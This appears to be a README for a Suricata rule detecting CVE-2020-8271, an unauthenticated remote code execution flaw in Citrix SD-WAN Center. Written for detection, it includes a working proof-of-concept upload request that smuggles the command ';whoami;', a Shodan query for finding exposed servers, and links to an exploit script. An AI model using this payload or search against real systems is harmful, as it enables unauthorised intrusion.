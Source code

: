 ## Overview
CVE-2020-8271 allows attackers to get remote code execution on Citrix SD-WAN Center without authenticating. Any anonymous user could upload a file contains commands and then execute it via a Path Traversal vulnerability.  

In this Suricata rule, I try to capture the activity of uploading the malicious file. Because of no credentials, attackers must use the crafted URL in which they have the special string "**://?**". The uploaded file is inside the directory **/home/talariuser/uploaded_license_files/** on the server.  

Please note that the web interface of Citrix SD-WAN Center uses **HTTPS** (port 443 by default).
### Bonus for bug bounty hunters
Shodan search for Citrix SD-WAN Center:  
**http.favicon.hash:-1272756243 http.title:"SD-WAN"**

## Proof of Concept
```
POST /aaaaaaaaaaaa/://?/collector/licensing/upload HTTP/1.1
Host: example.com
Content-Length: 237
Content-Type: multipart/form-data; boundary=8823e25728843f7b9d2deadb77d34572

--8823e25728843f7b9d2deadb77d34572
Content-Disposition: form-data; name="name"

test
--8823e25728843f7b9d2deadb77d34572
Content-Disposition: form-data; name="file"; filename="test"

;whoami;
--8823e25728843f7b9d2deadb77d34572--
```

## References
* https://medium.com/realmodelabs/sd-pwn-part-2-citrix-sd-wan-center-another-network-takeover-a9c950a1a27c
* https://github.com/RealmodeLabs/SD-PWN/blob/master/citrix_sdwan_center_rce.py